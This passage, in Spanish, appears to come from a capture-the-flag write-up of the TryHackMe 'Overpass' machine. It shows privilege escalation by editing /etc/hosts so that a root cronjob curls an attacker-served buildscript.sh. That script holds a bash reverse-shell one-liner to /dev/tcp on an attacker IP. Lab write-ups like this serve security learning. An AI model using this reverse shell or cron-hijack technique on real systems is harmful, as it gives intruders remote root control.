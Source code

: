 ```bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Dentro del archivo, encontramos que el nombre de host `overpass.thm` está apuntando hacia **localhost** (`127.0.0.1`).

Dado que tenemos control sobre el archivo `/etc/hosts` y el cronjob utiliza el nombre de host `overpass.thm` en el comando curl, podemos falsificar el nombre de host para que apunte a nuestra dirección IP atacante. Esto implica que cuando se ejecute el cronjob, se establecerá una conexión con nuestra dirección IP.

Para aprovechar esta oportunidad, debemos hacer es crear un servidor web en nuestra máquina atacante para que la máquina víctima se conecte a él.

Al examinar más detenidamente el cronjob, también notamos que debemos replicar todos los directorios (`/downloads/src/buildscript.sh`) en nuestro servidor web tal como se indica en el comando cronjob. De lo contrario, cada vez que se ejecute el comando curl, obtendremos un error "**404 NOT FOUND**".

Crearemos un archivo llamado `buildscript.sh` que generará una reverse shell hacia nuestra máquina atacante. Luego, lo ubicaremos en la ruta `/downloads/src/` para replicar la estructura mencionada en el cronjob.

```bash
❯ cat buildscript.sh
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: buildscript.sh
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ bash -i >& /dev/tcp/10.2.11.100/443 0>&1
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Para replicar la estructura de directorios mencionada en el cronjob, debemos asegurarnos de que los directorios estén configurados correctamente en nuestro servidor web. La estructura de directorios sería la siguiente:

```bash
./downloads/src/buildscript.sh
```

Para falsificar el nombre de host `overpass.thm` y hacer que apunte a nuestra dirección IP atacante, debemos editar el archivo `/etc/hosts` y reemplazar la línea que contiene `127.0.0.1` con nuestra dirección IP.

